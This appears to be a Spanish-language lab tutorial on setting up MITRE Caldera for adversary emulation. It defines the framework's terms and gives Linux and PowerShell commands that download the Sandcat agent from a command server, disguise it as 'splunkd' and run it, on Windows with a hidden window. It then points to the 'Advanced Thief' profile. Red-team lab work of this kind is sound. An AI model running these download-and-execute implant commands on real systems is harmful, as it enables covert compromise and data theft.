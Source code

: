 ### Terminología

- Agente: Software que se instala en los sistemas que se quieren evaluar.
- Habilidades: Táctica o técnica que se quieren emular. Vinculadas a la matriz MITRE ATT&CK.
- Adversarios: Perfiles de los atacantes que se quieren emular. Conjunto de habilidades.
- Operaciones: Ejecuciones de habilidades sobre grupos de agentes.

![Esquema funcionamiento Caldera](assets/Esquema-funcionamiento-Caldera.png)

### Primeros pasos

Instalar en la propia máquina linux (probar el SandCat).

``` bash
server="http://0.0.0.0:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;chmod +x splunkd;./splunkd -server $server -group red -v
```

Y otra en el windows 10 limpia (meterlo en la misma Red NAT).

``` psh
$server="http://10.1.0.4:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;rm -force "C:\Users\Public\splunkd.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

### Automatización de ataques

Revisar las habilidades y los adversarios.

Como ejemplo, probamos "Advanced Thief"

![Advanced Thief](assets/Advanced-Thief.png)
